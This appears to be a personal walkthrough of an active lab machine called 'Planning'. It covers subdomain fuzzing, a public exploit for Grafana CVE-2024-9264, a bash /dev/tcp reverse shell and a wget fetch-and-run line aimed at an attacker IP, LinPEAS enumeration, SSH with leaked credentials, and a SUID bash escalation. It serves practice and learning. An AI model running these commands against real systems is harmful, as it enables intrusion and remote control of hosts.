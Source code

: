 # Planning - No Walkthrough (Active Machine)

##  Initial Enumeration

Trying to see all the active services using:

```bash
nmap -p- -sV -sC --min-rate 500 10.10.11.68
```

Results show an SSH service and a HTTP server.  
The HTTP server redirects to:  
**http://planning.htb/**

Now added the `http://planning.htb/` and `10.10.11.68` to `/etc/hosts` so that it shows the site.

##  Gobuster and Directory/Subdomain Discovery

Used `gobuster` to check for any subdomains and also any directories but nothing useful.

I found a PHP file called `details.php` which takes you to an `enroll.php` that contains a form for fullname, email, and phone no.  
Except for email, nothing is validated.  
Tried to pass quotes to try for SQL injection to get an error but only showing “successful”.

Tried subdomain fuzzing - no dice with `bug-bounty-program-subdomains-trickest-inventory.txt`

Directory fuzzing - got nothing useful.

Checked online for any hints - there was a hint to keep trying subdomain fuzzing with other wordlists.

##  Switching Tools - Trying FFUF

I am going to try using `ffuf` instead of gobuster this time:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://planning.htb' -H "Host:FUZZ.planning.htb"
```

Found a `grafana` subdomain 🎯

##  Grafana Vulnerability & Exploitation

Checked the version of Grafana using `/api/health` - got response with version as `v11.0.0`

Googled for any vulnerabilities for this particular version and found:  
**CVE-2024-9264**

Found a working exploit at:  
https://github.com/nollium/CVE-2024-9264.git

Cloned it and used:

```bash
python3 CVE-2024-9264.py -u user -p user -c <shell-cmd> <url>
```

Passed `id` in the `-c` and I see that I have **root access**

##  Reverse Shell Setup

Now I am going to do reverse shell.

Started a port using:

```bash
nc -lvnp 4444
```

Created a file:

```bash
echo bash -i >& /dev/tcp/10.10.14.96/4444 0>&1 > shell.sh
```

Hosted it using:

```bash
python3 -m http-server 8000
```

Then passed this `wget` command through duckdb using the CVE exploit:

```bash
wget http://10.10.14.96:8000/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && bash /tmp/shell.sh
```

We got the shell access 🎉

Went through most files, couldn’t find a user flag or root flag.

##  Post Exploitation - LinPEAS & Enumeration

Looks like this is not it. Need to run **LinPEAS** to check.

Downloaded `linpeas.sh` in attacker machine, hosted it same as the shell file, and used `wget` from reverse shell.

Then did:

```bash
chmod +x linpeas.sh
```

First time using linpeas so had to research what to check.

Could see that we are in a **Docker container** and not on the host — container escape maybe?

In the LinPEAS report I could see all the env variables and in it I found some interesting stuff:

```env
[redacted]
[redacted]
```

## 🔐 SSH Access

Tried it in the Grafana login - no dice.

Tried it as an SSH user for the SSH found during Nmap enumeration:

```bash
ssh enzo@<IPADDRESS>
```

Put in the password — I’m **logged in** 🧑‍💻  
**Found my first user flag** for an active machine!

## ⚙️ Privilege Escalation

Ran `linpeas` again — noticed there was a file with **SUID attached**:

```bash
/tmp/bash
```

Ran:

```bash
/tmp/bash -p
```

Got **root access** 🎯

```bash
cat /root/root.txt
```

**Got the root flag** — Machine **pawned** 💀
